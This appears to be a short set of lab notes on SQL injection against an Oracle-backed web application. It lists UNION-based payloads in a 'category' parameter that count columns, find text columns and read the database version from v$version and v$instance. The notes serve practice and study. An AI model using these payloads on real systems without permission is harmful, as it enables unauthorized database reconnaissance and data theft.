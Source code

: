 #Determine number of col
category=Pets' ORDER BY 3--

#Determine which col contain text data
category=Pets' UNION SELECT 'A','B' FROM DUAL--

#Determine its type and version
category=Pets' UNION SELECT banner,NULL FROM v$version --
category=Pets' UNION SELECT version,NULL FROM v$instance --

